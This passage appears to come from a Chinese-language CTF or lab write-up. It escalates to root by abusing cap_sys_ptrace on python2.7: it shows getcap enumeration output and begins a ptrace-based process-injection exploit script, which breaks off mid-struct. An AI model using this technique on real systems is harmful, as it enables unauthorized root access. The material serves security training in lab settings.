 root 权限提升是这台机器的一个有趣部分。让我们检查机器上不同二进制文件的功能。

```
saket@ubuntu:~$ /sbin/getcap -r / 2>/dev/null
/sbin/getcap -r / 2>/dev/null
/snap/core20/1623/usr/bin/ping = cap_net_raw+ep
/usr/bin/python2.7 = cap_sys_ptrace+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

EXP

```
# inject.py# The C program provided at the GitHub Link given below can be used as a reference for writing the python script.
# GitHub Link: https://github.com/0x00pf/0x00sec_code/blob/master/mem_inject/infect.c 

import ctypes
import sys
import struct

# Macros defined in <sys/ptrace.h>
# https://code.woboq.org/qt5/include/sys/ptrace.h.html

PTRACE_POKETEXT   = 4
PTRACE_GETREGS    = 12
PTRACE_SETREGS    = 13
PTRACE_ATTACH     = 16
PTRACE_DETACH     = 17

# Structure defined in <sys/user.h>
# https://code.woboq.org/qt5/include/sys/user.h.html#user_regs_struct

class user_regs_struct(ctypes.Structure):
    _fields_ = [
        ("r15", ctypes.c_ulonglong),
        ("r14", ctypes.c_ulonglong),
        ("r13", ctypes.c_ulonglong),
        ("r12", ctypes.c_ulonglong),
        ("rbp", ctypes.c_ulonglong),
        ("rbx", ctypes.c_ulonglong),
        ("r11", ctypes.c_ulonglong),
        ("r10", ctypes.c_ulonglong),
        ("r9", ctypes.c_ulonglong),
        ("r8", ctypes.c_ulonglong),
        ("rax", ctypes.c_ulonglong),
        ("rcx", ctypes.c_ulonglong),
        ("rdx", ctypes.c_ulonglong),
        ("rsi", ctypes.c_ulonglong),
        ("rdi", ctypes.c_ulonglong),
        ("orig_rax", ctypes.c_ulonglong),
        ("rip", ctypes.c_ulonglong),
        ("cs", ctypes.c_ulonglong),
        ("eflags", ctypes.c_ulonglong),
        ("rsp", ctypes.c_ulonglong),
        ("ss", ctypes.c_ulonglong),
        ("fs_base", ctypes.c_ulonglong),
        ("gs_base", ctypes.c_ulonglong),
        ("ds", ctypes.c_ulonglong),
        ("es", ctypes.c_ulonglong),
```